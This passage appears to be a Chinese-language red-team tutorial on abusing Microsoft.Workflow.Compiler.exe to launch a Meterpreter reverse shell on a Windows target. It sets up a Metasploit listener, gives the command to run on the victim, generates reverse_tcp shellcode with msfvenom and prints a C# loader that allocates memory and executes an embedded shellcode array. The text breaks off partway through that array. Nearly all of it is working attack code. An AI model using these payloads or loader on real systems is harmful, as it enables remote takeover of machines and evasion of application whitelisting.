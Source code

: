 #### 设置监听

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```

#### 靶机执行payload

```dos
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml add.tcp
```

#### 查看会话

进程意外终止，未获得会话，利用方法2进行测试。

### 方法2

#### msf生成shellcode

```bash
msfvenom  -p windows/x64/shell/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f csharp
```

```cs
using System;

using System.Workflow.Activities;

using System.Net;

using System.Net.Sockets;

using System.Runtime.InteropServices;

using System.Threading;

class yrDaTlg : SequentialWorkflowActivity {

[DllImport("kernel32")] private static extern IntPtr VirtualAlloc(UInt32 rCfMkmxRSAakg,UInt32 qjRsrljIMB, UInt32 peXiTuE, UInt32 AkpADfOOAVBZ);

[DllImport("kernel32")] public static extern bool VirtualProtect(IntPt rDStOGXQMMkP, uint CzzIpcuQppQSTBJ, uint JCFImGhkRqtwANx, out uint exgVp Sg);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 eisuQbXKYbAvA, UInt32 WQATOZaFz, IntPtr AEGJQOn,IntPtr SYcfyeeSgPl, UInt32 ZSheqBwKtDf, ref UInt32 SZtdSB);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr KqJNFlHpsKOV, UInt32 EYBOArlCLAM);

public yrDaTlg() {

byte[] QWKpWKhcs =

{0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,
0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,
```